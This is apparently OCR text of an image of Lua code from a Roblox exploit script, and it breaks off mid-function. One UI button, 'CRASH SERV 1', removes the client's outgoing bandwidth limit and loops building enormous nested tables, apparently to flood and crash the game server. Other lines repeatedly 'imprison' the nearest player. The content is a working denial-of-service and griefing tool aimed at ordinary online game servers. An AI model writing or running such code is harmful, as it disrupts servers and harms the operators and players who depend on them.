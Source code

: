         local myCharacter = script.Parent
        RunService.Heartbeat:Connect(function()
            imprisonClosestPlayer(myCharacter)
        end)

    end,
})

tr1Section:Button({
    Name = "CRASH SERV 1",
    Callback = function()
        print("Killed everyone.")
        local char = game:GetService('Players').LocalPlayer.Character or nil
if char then
char.HumanoidRootPart.CFrame = CFrame.new(0,9e9,0)
task.wait(0.5)
char.HumanoidRootPart.Anchored = true
end
while wait(0.6) do --// don't change it's the best
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end

local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}

table.insert(spammedtable, {})
z = spammedtable[1]

for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end

local calculatemax = getmaxvalue(tableincrease)
local maximum

if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end

for i = 1, maximum do
     table.insert(maintable, spammedtable)
end
